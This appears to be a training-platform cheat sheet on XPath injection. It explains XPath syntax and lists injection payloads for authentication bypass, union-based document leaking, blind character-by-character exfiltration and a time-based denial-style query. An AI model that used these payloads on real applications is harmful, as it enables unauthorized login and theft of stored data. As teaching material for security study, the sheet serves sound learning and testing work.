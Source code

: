 ## XPath Injection

#### XPath Syntax

Nodes:

|Query|Explanation|
|---|---|
|`module`|Select all `module` child nodes of the context node|
|`/`|Select the document root node|
|`//`|Select descendant nodes of the context node|
|`.`|Select the context node|
|`..`|Select the parent node of the context node|
|`@difficulty`|Select the `difficulty` attribute node of the context node|
|`text()`|Select all text node child nodes of the context node|

Predicates:

|Query|Explanation|
|---|---|
|`/academy_modules/module[1]`|Select the first `module` child node of the `academy_modules` node|
|`/academy_modules/module[position()=1]`|Equivalent to the above query|
|`/academy_modules/module[last()]`|Select the last `module` child node of the `academy_modules` node|
|`/academy_modules/module[position()<3]`|Select the first two `module` child nodes of the `academy_modules` node|
|`//module[tier=2]/title/text()`|Select the `title` of all modules where the `tier` element node equals `2`|
|`//module/author[@co-author]/../title`|Select the `title` of all modules where the `author` element node has a `co-author` attribute node|
|`//module/tier[@difficulty="medium"]/..`|Select all modules where the `tier` element node has a `difficulty` attribute node set to `medium`|

Predicate Operands:

|Operand|Explanation|
|---|---|
|`+`|Addition|
|`-`|Subtraction|
|`*`|Multiplication|
|`div`|Division|
|`=`|Equal|
|`!=`|Not Equal|
|`<`|Less than|
|`<=`|Less than or Equal|
|`>`|Greater than|
|`>=`|Greater than or Equal|
|`or`|Logical Or|
|`and`|Logical And|
|`mod`|Modulus|

Wildcards:

|Query|Explanation|
|---|---|
|`node()`|Matches any node|
|`*`|Matches any `element` node|
|`@*`|Matches any `attribute` node|

Union:

|Query|Explanation|
|---|---|
|`//module[tier=2]/title/text() \| //module[tier=3]/title/text()`|Select the title of all modules in tiers `2` and `3`|

#### Authentication Bypass

|Description|Username|Query|
|---|---|---|
|Regular Authentication|`htb-stdnt`|`/users/user[username/text()='htb-stdnt' and password/text()='295362c2618a05ba3899904a6a3f5bc0']`|
|Bypass Authentication with known username|`admin' or '1'='1`|`/users/user[username/text()='admin' or '1'='1' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|
|Bypass Authentication by position|`' or position()=1 or '`|`/users/user[username/text()='' or position()=1 or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|
|Bypass Authentication by substring|`' or contains(.,'admin') or '`|`/users/user[username/text()='' or contains(.,'admin') or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|

#### Data Exfiltration

Unrestricted:

- Leak entire XML document via union injection: `| //text()`

Restricted:

- Determine schema depth via chain of wildcards `/*[1]`
- iterate through XML schema by increasing the indices to exfiltrate the entire document step-by-step

#### Blind Data Exfiltration

|Description|Payload|Query|
|---|---|---|
|Exfiltrating Node Name's Length|`invalid' or string-length(name(/*[1]))=1 and '1'='1`|`/users/user[username='invalid' or string-length(name(/*[1]))=1 and '1'='1']`|
|Exfiltrating Node Name|`invalid' or substring(name(/*[1]),1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(name(/*[1]),1,1)='a' and '1'='1']`|
|Exfiltrating Number of Child Nodes|`invalid' or count(/*[1]/*)=1 and '1'='1`|`/users/user[username='invalid' or count(/*[1]/*)=1 and '1'='1']`|
|Exfiltrating Value Length|`invalid' or string-length(/users/user[1]/username)=1 and '1'='1`|`/users/user[username='invalid' or string-length(/users/user[1]/username)=1 and '1'='1']`|
|Exfiltrating Value|`invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1']`|

#### Time-based

Force the web application to iterate over the entire XML document exponentially:

Code: xpath

```xpath
count((//.)[count((//.))])
```

Determine whether the first letter of the "username" is "a" based on the time it takes: if it is, the query will utilize a significant processing time, otherwise, it won't.

Code: xpath

```xpath
invalid' or substring(/users/user[1]/username,1,1)='a' and count((//.)[count((//.))]) and '1'='1

